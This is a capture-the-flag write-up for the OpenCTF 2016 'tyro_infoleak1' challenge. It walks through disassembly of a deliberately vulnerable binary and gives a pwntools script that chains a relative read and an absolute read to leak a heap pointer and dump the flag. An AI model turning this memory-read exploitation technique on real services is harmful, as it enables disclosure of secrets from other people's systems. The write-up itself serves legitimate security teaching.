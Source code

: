 ```yaml
---
layout: post
title: OpenCTF 2016 - Tyro Infoleak1
---
```


This is a writeup for **tyro_infoleak1** which was the first part of a 3 part challenge involving, as the challenge name suggests, info leaks. 

{% highlight text %}
Baby's first infoleak (do you even really need the binary?) (https://en.wikipedia.org/wiki/Information_leakage)
Server: 172.31.1.36:1616
Binary: 172.31.0.10/tyro_infoleak1_bdc3f08dab986b30317b0937a096d794
{% endhighlight %}

Ignoring the challenge description, we can download the binary and run checksec on it to determine which memory protections it is compiled with.

{% highlight bash %}
$ checksec tyro_infoleak1
[*] 'openctf16/tyro_infoleak1'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
{% endhighlight %}

When we run the program, we are presented with the following  

{% highlight text %}
$ ./tyro_infoleak1 
OpenCTF tyro info leak 2

ASLR is on, the binary is PIE
Can you read the flag?
1)relative read
2)absolute read
{% endhighlight %}

Basically, this program provides us with 2 functions: the ability to perform a relative read, and the ability to perform an absolute read. 

## Relative Read

{% highlight text %}
.text:00000A46                 mov     dword ptr [esp], offset Offset ; "Offset: "
.text:00000A4D                 call    printf
.text:00000A52                 lea     eax, [esp+14h]
.text:00000A56                 mov     [esp+4], eax
.text:00000A5A                 mov     dword ptr [esp], offset fmtstr_x ; "%x"
.text:00000A61                 call    __isoc99_scanf  ; scanf("%x", &i);
.text:00000A66                 lea     edx, [esp+14h]
.text:00000A6A                 mov     eax, [esp+14h]
.text:00000A6E                 add     eax, edx        ; eax = &i+i
.text:00000A70                 mov     [esp+14h], eax
.text:00000A74                 mov     eax, [esp+14h]
.text:00000A78                 mov     eax, [eax]
.text:00000A7A                 mov     [esp+4], eax
.text:00000A7E                 mov     dword ptr [esp], offset fmtstr_p ; "%p\n"
.text:00000A85                 call    printf          ; printf("%p\n", *(&i+i))
.text:00000A8A                 jmp     short loc_AE5
{% endhighlight %}

All this basic block does is ask the user to specify an offset, which it uses to calculate the address located at that offset from a local variable, `i`, and prints out 4 bytes of whatever data is stored there. 


## Absolute Read

{% highlight text %}
.text:00000A8C loc_A8C:                                ; CODE XREF: main+F9j
.text:00000A8C                 mov     eax, [esp+14h]
.text:00000A90                 cmp     eax, 2
.text:00000A93                 jnz     short loc_ACD
.text:00000A95                 mov     dword ptr [esp], offset aAbsoluteAddres ; "Absolute address to read from: "
.text:00000A9C                 call    printf
.text:00000AA1                 lea     eax, [esp+14h]
.text:00000AA5                 mov     [esp+4], eax
.text:00000AA9                 mov     dword ptr [esp], offset fmtstr_x ; "%x"
.text:00000AB0                 call    __isoc99_scanf
.text:00000AB5                 mov     eax, [esp+14h]
.text:00000AB9                 mov     eax, [eax]
.text:00000ABB                 mov     [esp+4], eax
.text:00000ABF                 mov     dword ptr [esp], offset fmtstr_p ; "%p\n"
.text:00000AC6                 call    printf
.text:00000ACB                 jmp     short loc_AE5
.text:00000ACD ; ---------------------------------------------------------------------------
.text:00000ACD
.text:00000ACD loc_ACD:                                ; CODE XREF: main+148j
.text:00000ACD                 mov     dword ptr [esp], offset aWat ; "wat!"
.text:00000AD4                 call    puts
.text:00000AD9                 mov     dword ptr [esp], 0 ; status
.text:00000AE0                 call    exit
{% endhighlight %}

The Absolute Read code path simply asks the user to specify an address to read from and prints 4 bytes of whatever data is stored at the specified address.   

So, we have both a 4-byte relative infoleak primitive as well as a 4-byte absolute infoleak primitive. 

If we take a look at the preceding initialization code, we can see how we can leverage these two primitives to leak the contents of the flag.

## Initialization Flow

{% highlight text %}
.text:0000094B                 push    ebp
.text:0000094C                 mov     ebp, esp
.text:0000094E                 and     esp, 0FFFFFFF0h
.text:00000951                 sub     esp, 20h
.text:00000954                 mov     dword ptr [esp], 100h ; size
.text:0000095B                 call    malloc
.text:00000960                 mov     [esp+18h], eax
.text:00000964                 mov     dword ptr [esp], 1Eh ; seconds
.text:0000096B                 call    alarm
.text:00000970                 mov     eax, ds:stdin
.text:00000975                 mov     dword ptr [esp+4], 0 ; buf
.text:0000097D                 mov     [esp], eax      ; stream
.text:00000980                 call    setbuf
.text:00000985                 mov     eax, ds:stdout
.text:0000098A                 mov     dword ptr [esp+4], 0 ; buf
.text:00000992                 mov     [esp], eax      ; stream
.text:00000995                 call    setbuf
.text:0000099A                 mov     dword ptr [esp+4], 0 ; oflag
.text:000009A2                 mov     dword ptr [esp], offset file ; "/home/challenge/flag"
.text:000009A9                 call    open
.text:000009AE                 mov     [esp+1Ch], eax
.text:000009B2                 cmp     dword ptr [esp+1Ch], 0FFFFFFFFh
.text:000009B7                 jnz     short loc_9D1
.text:000009B9                 mov     dword ptr [esp], offset s ; "Can't open flag"
.text:000009C0                 call    puts
.text:000009C5                 mov     dword ptr [esp], 0 ; status
.text:000009CC                 call    exit
.text:000009D1 ; ---------------------------------------------------------------------------
.text:000009D1
.text:000009D1 loc_9D1:                                ; CODE XREF: main+6Cj
.text:000009D1                 mov     dword ptr [esp+8], 100h ; nbytes
.text:000009D9                 mov     eax, [esp+18h]
.text:000009DD                 mov     [esp+4], eax    ; buf
.text:000009E1                 mov     eax, [esp+1Ch]
.text:000009E5                 mov     [esp], eax      ; fd
.text:000009E8                 call    read
.text:000009ED                 mov     eax, [esp+1Ch]
.text:000009F1                 mov     [esp], eax      ; fd
.text:000009F4                 call    close
.text:000009F9                 mov     dword ptr [esp], offset aOpenctfTyroInf ; "OpenCTF tyro info leak 2\n"
.text:00000A00                 call    puts
.text:00000A05                 mov     dword ptr [esp], offset aAslrIsOnTheBin ; "ASLR is on, the binary is PIE"
.text:00000A0C                 call    puts
.text:00000A11                 mov     dword ptr [esp], offset aCanYouReadTheF ; "Can you read the flag?"
.text:00000A18                 call    puts
{% endhighlight %}

We can see that when the function is initialized, a chunk of memory is requested and allocated on the heap via `malloc(0x100)`, which is subsequently used to store the contents of the flag after calling `read()`. 

We can use our relative infoleak primitive to first, leak the address of the `malloc()`'d heap chunk, and then use our absolute infoleak primitive to leak the contents of the flag 4 bytes at a time. The following script achieves this.

## Solution 

{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys

def relative_read():
        r.sendline("1")
        r.recvuntil(": ")
        r.sendline("4")
        return int(r.recv(10),0)

def absolute_read(flag_loc):
        r.sendline("2")
        r.recvuntil(": ")
        r.sendline(str(flag_loc))
        return int(r.recvline(10),0)

def exploit(r):
        r.recvuntil("2)absolute read\n")
        flag_loc = relative_read()
        flag=""

        while(1):
                r.recvuntil("2)absolute read\n")
                try:
                        flag+=pack(absolute_read(hex(flag_loc)),32, 'big', True)
                        flag_loc+=4
                except:
                        print flag
                        break
        #r.interactive()

if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['/home/rh0gue/Documents/openctf16/tyro_infoleak1'])
        print util.proc.pidof(r)
        pause()
        exploit(r)
{% endhighlight %}
